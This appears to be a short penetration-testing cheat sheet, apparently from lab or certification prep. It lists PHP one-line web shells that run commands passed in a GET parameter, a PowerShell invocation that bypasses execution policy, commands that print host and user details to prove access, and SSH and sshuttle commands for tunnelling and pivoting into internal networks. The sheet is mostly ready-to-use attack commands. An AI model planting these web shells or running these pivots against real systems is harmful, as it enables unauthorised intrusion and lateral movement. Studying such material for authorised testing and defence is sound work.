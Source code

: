 **PHP**

PHP command injection from GET Request


<?php echo system($_GET["cmd"]);?>

#Alternative
<?php echo shell_exec($_GET["cmd"]);?>
```

**Powershell**

Non-interactive execute powershell file


powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

**Misc**

More binaries Path


export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

Linux proof


hostname && whoami && cat proof.txt && /sbin/ifconfig
```

Windows proof


hostname && whoami.exe && type proof.txt && ipconfig /all
```

**SSH Tunneling / Pivoting**

sshuttle


sshuttle -vvr user@10.10.10.10 10.1.1.0/24
```

Local port forwarding


ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
```

Remote port forwarding


ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```
